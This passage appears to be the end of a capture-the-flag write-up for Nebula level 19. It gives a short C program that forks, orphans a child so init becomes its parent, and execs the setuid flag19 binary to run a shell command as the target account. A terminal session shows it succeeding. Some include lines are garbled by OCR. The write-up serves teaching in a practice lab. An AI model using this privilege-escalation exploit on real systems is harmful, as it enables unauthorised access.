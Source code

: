 int main() {
    pid_t childpid; /* variable to store the child's pid */
    int retval;     /* child process: user-provided return code */
    int status;     /* parent process: child's exit status */
 
    childpid = fork();
 
    if (childpid >= 0) { // success
        if (childpid == 0) {    // child
            char cmd[] = "/home/flag19/flag19";
            char *argv[] = { "/bin/sh", "-c", "/bin/getflag > /home/flag19/test" };
            char *envp[] = { NULL };
            sleep(3);
            execve(cmd, argv, envp); // the parent has already terminated by now
 
        } else {    // parent
            //waitpid(childpid, &status, 0);
            sleep(1);
            exit(1);
        }
    }
}
</stdlib.h></sys></stdio.h></errno.h></sys></unistd.h>
Executing it: 
?
1
2
3
4
5
6
level19@nebula:~$ ps aux | grep -i init
root         1  0.0  0.7   3188  1772 ?        Ss   Jul13   0:03 /sbin/init
level19@nebula:~$ gcc start.c
level19@nebula:~$ ./a.out
level19@nebula:~$ cat /home/flag19/test
You have successfully executed getflag on a target account

All the levels are very instructive, heading for the next ones in Protostar.
